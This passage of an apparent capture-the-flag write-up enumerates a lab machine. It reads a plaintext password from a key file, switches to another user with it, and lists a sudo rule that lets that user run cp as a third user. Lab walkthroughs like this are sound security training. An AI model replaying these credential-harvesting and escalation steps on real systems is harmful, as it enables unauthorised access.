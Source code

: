 `Linpeas.sh` also found this. SSH is running on port `3445`, but it is not being allowed through the firewall. This may come in handy later:

```bash
╔══════════╣ Analyzing SSH Files (limit 70)





-rw-r--r-- 1 root root 176 Jun 30  2023 /etc/ssh/ssh_host_ecdsa_key.pub
-rw-r--r-- 1 root root 96 Jun 30  2023 /etc/ssh/ssh_host_ed25519_key.pub
-rw-r--r-- 1 root root 568 Jun 30  2023 /etc/ssh/ssh_host_rsa_key.pub

Port 3445
UsePAM yes
```

Examining Afrodita.key

```bash
bash-5.2$ ls -lash /etc/selinux/Afrodita.key
ls -lash /etc/selinux/Afrodita.key
4.0K -rwxr--r-- 1 root root 237 Jul 12  2023 /etc/selinux/Afrodita.key
```

Contains a password:

```bash
bash-5.2$  cat /etc/selinux/Afrodita.key
 cat /etc/selinux/Afrodita.key
Here is my password:
Hax0rModeON
```

Using password to switch to the Talos:

```bash
bash-5.2$ su talos
su talos
Password: Hax0rModeON
```

I am now in the correct group:

```bash
talos@principle:~$ whoami && id
whoami && id
talos
uid=1000(talos) gid=1000(talos) groups=1000(talos),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```

Using the `sudo -l` We can run `cp` as the elohim user:

```bash
talos@principle:~$ sudo -l
sudo -l
Matching Defaults entries for talos on principle:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User talos may run the following commands on principle:
    (elohim) NOPASSWD: /bin/cp
```
